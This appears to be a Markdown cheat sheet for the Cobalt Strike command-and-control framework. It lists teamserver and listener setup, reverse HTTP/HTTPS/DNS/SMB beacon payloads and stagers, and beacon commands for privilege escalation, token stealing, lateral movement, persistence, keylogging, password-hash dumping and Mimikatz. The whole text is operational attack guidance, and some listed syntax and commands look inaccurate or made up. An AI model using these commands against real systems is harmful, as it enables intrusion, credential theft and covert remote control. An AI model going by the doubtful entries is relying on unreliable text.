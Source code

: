 # Cobalt Strike

% cobaltstrike, cs

#plateform/linux #target/remote #cat/C2 #tag/command-control

## Start Teamserver
#cat/SETUP 
```
./teamserver <external_ip> <password>
```

## Start Client
#cat/SETUP 
```
./cobaltstrike
```

## Generate HTTP Listener
#cat/SETUP 
```
listener http { set Host "<domain_or_ip>"; set Port "<port>"; set BindPort "<port>"; }
```

## Generate HTTPS Listener
#cat/SETUP 
```
listener https { set Host "<domain_or_ip>"; set Port "<port>"; set BindPort "<port>"; set Cert "<certificate_path>"; }
```

## Generate DNS Listener
#cat/SETUP 
```
listener dns { set Host "<domain>"; set Port "<port>"; set BindPort "<port>"; }
```

## Generate SMB Listener
#cat/SETUP 
```
listener smb { set PipeName "<pipe_name>"; }
```

## Generate HTTP Beacon Payload
#cat/PAYLOAD 
```
windows/beacon_http/reverse_http
```

## Generate HTTPS Beacon Payload
#cat/PAYLOAD 
```
windows/beacon_https/reverse_https
```

## Generate DNS Beacon Payload
#cat/PAYLOAD 
```
windows/beacon_dns/reverse_dns
```

## Generate SMB Beacon Payload
#cat/PAYLOAD 
```
windows/beacon_smb/reverse_smb
```

## Generate PowerShell Stager
#cat/PAYLOAD 
```
powershell/beacon_http/reverse_http
```

## Generate PowerShell One-Liner
#cat/PAYLOAD 
```
powershell/beacon_https/reverse_https
```

## Generate Java Applet Stager
#cat/PAYLOAD 
```
java/beacon_http/reverse_http
```

## Generate Windows Executable Stager
#cat/PAYLOAD 
```
windows/beacon_http/reverse_http
```

## Generate DLL Stager
#cat/PAYLOAD 
```
windows/beacon_https/reverse_https
```

## Generate MacOS Payload
#cat/PAYLOAD 
```
osx/beacon_http/reverse_http
```

## Generate Linux Payload
#cat/PAYLOAD 
```
linux/beacon_http/reverse_http
```

## Beacon Commands - Basic
#cat/COMMAND 
```
help                    # Show available commands
sleep <seconds>         # Set beacon sleep time
jobs                    # List running jobs
jobkill <job_id>        # Kill a job
```

## Beacon Commands - System Information
#cat/COMMAND 
```
whoami                 # Current user
hostname               # Target hostname
pwd                    # Current directory
ps                     # List processes
netstat                # Network connections
```

## Beacon Commands - File Operations
#cat/COMMAND 
```
ls <path>              # List directory contents
cd <path>              # Change directory
pwd                     # Print working directory
download <file>         # Download file from target
upload <file>           # Upload file to target
```

## Beacon Commands - Execution
#cat/COMMAND 
```
shell <command>         # Execute command via cmd
execute <command>       # Execute command via CreateProcess
powershell <command>    # Execute PowerShell command
```

## Beacon Commands - Privilege Escalation
#cat/COMMAND 
```
elevate <technique>     # Attempt privilege escalation
runas <user> <command>  # Run command as different user
steal_token <pid>       # Steal token from process
```

## Beacon Commands - Lateral Movement
#cat/COMMAND 
```
psexec <target> <command>    # Execute command on remote system
wmi <target> <command>       # Execute command via WMI
smb <target> <command>       # Execute command via SMB
```

## Beacon Commands - Persistence
#cat/COMMAND 
```
persist <technique>     # Install persistence mechanism
```

## Beacon Commands - Network
#cat/COMMAND 
```
net view                # List network shares
net use                 # List network connections
portscan <target> <ports>  # Scan ports on target
```

## Beacon Commands - Data Exfiltration
#cat/COMMAND 
```
screenshot              # Take screenshot
keylogger <pid>         # Start keylogger on process
hashdump                # Dump password hashes
mimikatz <command>      # Execute Mimikatz command
```
